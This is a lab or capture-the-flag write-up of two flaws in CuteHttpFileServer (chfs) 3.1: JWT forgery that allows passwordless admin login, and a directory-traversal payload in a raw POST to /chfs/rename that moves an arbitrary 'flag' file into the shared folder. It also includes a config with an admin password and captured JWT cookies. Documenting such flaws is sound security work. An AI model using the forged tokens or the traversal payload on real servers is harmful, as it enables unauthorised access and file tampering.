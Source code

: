 Offical  website address:[http://iscute.cn/chfs](http://iscute.cn/chfs)
Offical github website address：[https://github.com/ods-im/CuteHttpFileServer](https://github.com/ods-im/CuteHttpFileServer)
# KEY
**JWT,Directory traversal**
# Environment preparation 
## Download chfs.exe
Enter Offical  website address:[http://iscute.cn/chfs](http://iscute.cn/chfs) Select chfs-3.1-windows
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39233950/1709274988874-51126c62-5bc7-45a7-acca-1eb3903631eb.png#averageHue=%23fefcfc&clientId=u1a104c01-cf31-4&from=paste&height=494&id=u87c18b23&originHeight=618&originWidth=1011&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=61883&status=done&style=none&taskId=u71255b8b-bf79-46df-834b-12bf17c16ff&title=&width=808.8)

## Download the .ini file
![7f57f3ad6839150f7a8fe81f61171fd.png](https://cdn.nlark.com/yuque/0/2024/png/39233950/1709275034578-b083f182-64cf-458e-949f-7d1f51656e9f.png#averageHue=%23b4b1b0&clientId=u1a104c01-cf31-4&from=paste&height=629&id=uc2c33651&originHeight=786&originWidth=1026&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=64249&status=done&style=none&taskId=u77fa3f35-6b87-44f8-b446-39b8f45f7ca&title=&width=820.8)
## configure .ini file
1.Powerusername: admin; 
2.The password is gdgm.edu.cn@M1n9K1n
3.Grant the corresponding rw permissions to the admin user,then Read-only permissions for common users
```php
#---------------------------------------
# 请注意：
#     1，如果不存在键或对应值为空，则不影响对应的配置
#     2，配置项的值，语法如同其对应的命令行参数
#   //共享目录为D盘，监听端口号为8080
#    chfs --path="d:/" --port=8080
#  //通过配置文件进行配置，该文件可以不存在，待以后需要更改配置时使用
#   chfs --file="./cfg.ini"
#---------------------------------------

# 监听端口
port=8000
path=/home/ming/share_main/


[admin]
password=gdgm.edu.cn@M1n9K1n
rule.default=rw
rule.r=
rule.w=

[guest]
rule.default=r
rule.r=

# 用户操作日志存放目录，默认为空
# 如果赋值为空，表示禁用日志
log=

# 下载目录策略。disable:禁用; leaf:仅限叶子目录的下载; enable或其他值:不进行限制。
# 默认值为 enable
folder.download=

#-------------- 设置生效后启用HTTPS，注意监听端口设置为443-------------
# 指定certificate文件
ssl.cert=
# 指定private key文件
ssl.key=
# 设置会话的生命周期，单位：分钟，默认为30分钟
session.timeout=

```
# Get the admin cookie
Enter the passwd corresponding to admin according to the configuration file above,then locally login
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39233950/1708271514845-669c227a-d9ca-4c13-8fc2-691b73bd6b61.png#averageHue=%23ededed&clientId=u0db1e2ac-21a8-4&from=paste&height=264&id=ua53c55e5&originHeight=318&originWidth=398&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=13015&status=done&style=none&taskId=ufa080c9c-30e3-482c-b083-9f3fbe7fe74&title=&width=330.3999938964844)
**and obtain their cookies after login successfully**
:::tips
GET / HTTP/1.1
Host: 172.30.43.159:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhY2MiOiJhZG1pbiIsImV4cCI6MTcwOTI3NzkzMH0.YdYxdkX_VBtnsWoaMQTMK6tr63NTWh5l3rU1q27hvwY; user=admin
Upgrade-Insecure-Requests: 1
:::
#  JWT Decryption and Forgery 
**Note: .ini session in the configuration file is 30 minutes by default. Therefore, any JWT has to be obtained in the local environment, which cannot be provided herea**
JWT decryption, the payload only contains the admin user we just registered, without verifying the current user's password. At the same time, the symmetric key has also been decrypted. From then on, any identity login can be achieved using JWT
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39233950/1708265286149-01a5430e-c13f-483c-b504-1b2b428e353b.png#averageHue=%23fcfcfc&clientId=u0db1e2ac-21a8-4&from=paste&height=488&id=ud680d0e1&originHeight=610&originWidth=1457&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=61397&status=done&style=none&taskId=u94e2e8bd-1c83-4042-b6b9-de21a0f7ef9&title=&width=1165.6)
# Experimental effect 
Now we are trying not to use a password, but to use our forged JWT to achieve login
## before login
### first
If you are not logged in admin, you only have the permission to download, but not the permission to rename or delete
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39233950/1709275831227-0cff88fe-8b2d-4bb6-bf38-c77dc6e61178.png#averageHue=%23f7f7f7&clientId=u1a104c01-cf31-4&from=paste&height=428&id=u5cb337c7&originHeight=535&originWidth=1232&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=45156&status=done&style=none&taskId=u3b7f4cd8-50f3-4a5c-a905-03fb4f08017&title=&width=985.6)
### second
Passwordless login is achieved by using the JWT obtained before
![48fdef1fe92ab34f940ed91bf5a66b7.png](https://cdn.nlark.com/yuque/0/2024/png/39233950/1709276693927-fa5d3d4a-8c96-4d96-a8f0-dd50c030812f.png#averageHue=%23dabc94&clientId=u1a104c01-cf31-4&from=paste&height=416&id=u4c7fb99c&originHeight=520&originWidth=1290&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=57544&status=done&style=none&taskId=uc10486b1-9237-407e-8f36-5d800f13a9e&title=&width=1032)
## successful jwt  forgery
Pressing F5 to refresh the browser, it was observed that the administrator user has logged in successfully without needing a password. Hence, we can utilize the same method to log in as any identity, while also gaining elevated privileges, including the ability to rename and delete.
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39233950/1709277093002-62b040f0-9b9a-4751-bcfc-7b426351cc85.png#averageHue=%23f0eceb&clientId=u1a104c01-cf31-4&from=paste&height=461&id=u0e0b97cf&originHeight=576&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=96243&status=done&style=none&taskId=u0cdf3d79-468a-431b-856b-b7df9c8be6b&title=&width=1536)
# 
Further exploit
After logging in as the admin user, you gain the ability to rename files. Combining this with a historical vulnerability in URL directory traversal, you can move any file from one location to another. For instance, moving /flag/flag/flag.txt to the default working directory /home/ming/share_main.
:::tips
POST /chfs/rename HTTP/1.1
Host: 172.17.0.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
cache-control: no-cache
Content-Type: multipart/form-data; boundary=---------------------------387492560430303528193503395152
Content-Length: 377
Origin: [http://172.17.0.3:8000](http://172.17.0.3:8000)
Connection: close
Referer: [http://172.17.0.3:8000/](http://172.17.0.3:8000/)
Cookie: JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhY2MiOiJhZG1pbiIsImV4cCI6MTcwOTI3Mjc3OH0.oXGZf37LrABxC01z05W-Z_imorz59LFapLI0bL8GJtc; {9c2028b6-2cb2-4ff5-bf33-e17126a2eeba}=value; user=admin

-----------------------------387492560430303528193503395152
Content-Disposition: form-data; name="new"

..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fming%2Fshare_main%2Fflag.txt
-----------------------------387492560430303528193503395152
Content-Disposition: form-data; name="old"

/../../../../flag/flag/flag.txt
-----------------------------387492560430303528193503395152--

:::

# Summary
:::info
The product allows forged JWTs, resulting in arbitrary login without a password and inheriting the user's permissions, which may trigger a directory vulnerability and ultimately invalidate the product's functionality

:::
